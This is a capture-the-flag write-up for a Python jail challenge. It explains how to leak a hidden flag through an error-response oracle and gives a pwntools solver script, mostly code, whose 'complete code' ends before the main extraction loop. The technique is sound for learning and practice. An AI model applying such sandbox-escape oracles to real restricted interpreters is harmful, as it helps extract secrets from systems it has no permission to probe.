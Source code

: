 I created a function called `check_blacklisted`, which will take in a blacklisted charcter, and check if its the charcter at `_[o]`. I called the function like this:

```py
	if not found:
		for c in  sorted("lite{}")[::-1]: #blacklisted characters that can be in the flag
			if check_blacklisted(c):
				flag += c
				found = True
				break
		if not found:
			flag += '.'
```

My approach was simple; we can take the character before `c` in tems of ascii value, and check if its smaller than `_[o]`. we iterate through `sorted("lite{}")`, so once we find one character thats smaller then `c`, we know that c is in the flag.

```py
def check_blacklisted(c):
	low = ord(c) -1

	send(f"m[_[o]>'{chr(low)}']")
	res = p.recvn(1)

	if res == b'z': #if it gave error
		return True
	return False
```

So this way we can know each character in the flag!
This was a really interseting challenge for me, and it was a good introudction to pyjails which I always wanted to learn.

Here is the complete code:
```py
from pwn import *


def send(a):
	global p
	p.recvuntil("code: ")
	p.sendline(a)

def get_size():
	send("o='a'!='a'") #o = 0
	send("p='a'=='a'") #p = 1
	for i in range(100):
		send(f"_[o]")
		res = p.recvn(1)
		if res == b'z': #if it gave error
			return i
		send("o=o+p")

def check_blacklisted(c):
	low = ord(c) -1

	send(f"m[_[o]>'{chr(low)}']")
	res = p.recvn(1)

	if res == b'z': #if it gave error
		return True
	return False

chars = [chr(i) for i in range(97, 123)] + [chr(i) for i in range(65, 91)] + ["_"]

p = process(['python3', 'main.py'])
```
